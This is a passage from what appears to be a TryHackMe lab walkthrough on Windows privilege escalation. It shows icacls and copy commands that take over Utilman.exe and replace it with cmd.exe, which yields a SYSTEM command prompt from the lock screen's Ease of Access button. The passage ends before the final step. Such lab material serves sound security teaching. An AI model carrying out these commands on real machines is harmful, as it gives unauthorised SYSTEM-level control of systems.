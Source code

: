 - **Command Prompt**        

```shell-session
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
processed file: Utilman.exe
Successfully processed 1 files; Failed processing 0 files
        
```

After this, we will replace utilman.exe with a copy of cmd.exe:

- **Command Prompt**        

```shell-session
C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
        
```

To trigger utilman, we will lock our screen from the start button:

![lock screen](./assets/dd7290ca93369cee33182023cb9190ff.png)

And finally, proceed to click on the "Ease of Access" button, which  runs utilman.exe with SYSTEM privileges. Since we replaced it with a  cmd.exe copy, we will get a command prompt with SYSTEM privileges:
